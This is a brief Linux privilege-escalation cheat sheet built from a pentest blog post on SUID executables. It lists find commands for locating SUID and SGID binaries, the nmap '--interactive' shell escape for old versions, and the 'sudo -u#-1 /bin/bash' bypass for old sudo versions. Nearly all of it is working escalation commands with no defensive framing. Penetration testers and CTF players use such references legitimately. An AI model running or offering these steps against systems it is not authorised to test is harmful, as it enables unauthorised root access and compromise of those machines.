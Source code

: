 ﻿https://pentestlab.blog/2017/09/25/suid-executables/

- Nmap
- Vim
- find
- Bash
- More
- Less
- Nano
- cp


    find / -user root -perm -4000 -print 2>/dev/null
    find / -perm -u=s -type f 2>/dev/null
    find / -perm -u=s 2>/dev/null
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    find / -user root -perm -4000 -exec ls -ldb {} \;

# nmap

For version 2.02 to 5.21

    nmap -V
    nmap --interactive
    !sh

# Sudo
Check version

    sudo --version

If sudo version < 1.28

    sudo -u#-1 /bin/bash